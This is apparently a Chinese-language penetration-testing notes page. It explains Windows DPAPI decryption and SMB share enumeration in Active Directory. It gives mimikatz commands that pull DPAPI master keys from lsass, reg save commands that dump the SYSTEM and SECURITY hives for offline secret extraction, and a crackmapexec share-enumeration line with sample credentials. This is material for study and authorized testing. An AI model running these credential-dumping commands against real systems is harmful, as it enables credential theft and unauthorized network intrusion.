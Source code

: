 ### <span style="color:#F98B26">2.2.1.4 DPAPI解密</span>

```
DPAPI提供了一组简单的API,可以使用绑定到特定用户或系统的隐士加密秘钥轻松加密和解密不透明数据.
这允许应用程序保护用户数据,而不必担心秘钥管理之类的事情.

对于windows系统,用户的加密数据大都采用DPAPI进行存储,而不需要解密这些数据,必须要获得DPAPI对应的
Masterkey.
```

```
mimikatz获取:

通过读取lsass进程信息,获取当前系统中的Masterkey,能获得多个Master key file对应的Masterkey

mimikatz # privilege::debug
mimikatz # sekurlsa::dpapi
```

https://ad-lab.gitbook.io/building-a-windows-ad-lab/vulnerabilities-and-misconfigurations-and-attacks/misc/different-methods-of-dumping-credentials/page-3

```
离线获取

reg save HKLM\SYSTEM system.bin
reg save HKLM\SECURITY security.bin



lsadump::secrets /system:system.bin /security:security.bin
```

```
待研究
```

### <span style="color:#F98B26">2.2.2 普通域用户</span>
### <span style="color:#F98B26">2.2.2.1 枚举SMB共享</span>

```
SMB 全称是 Server Message Block(服务器消息块)，又称网络文件共享系统，是一种应用层网络传输协议
SMB 被广泛地应用于在计算机间共享文件、端口、命名管道和打印机等
系统上的不同应用程序可以同时读取和写入文件，并向服务器请求服务

此外，SMB可以直接在 TCP/IP 或其他网络协议上运行
通过 SMB，用户或任何经授权的应用程序都可以访问远程服务器上的文件或其他资源，并且可以执行读取、创建和更新数据等操作

通常，服务器上有 SMB 共享驱动器，可以连接到该驱动器并用于查看或传输文件
接下来介绍接种方法来进行枚举域控的 smb 共享
```

```
1. crackmapexec

crackmapexec (CME) 是一款后渗透利用工具，可帮助自动化大型活动目录(AD)网络安全评估任务

crackmapexec smb 192.168.0.56 -u fsociety -p P@ssw0rd --shares
```
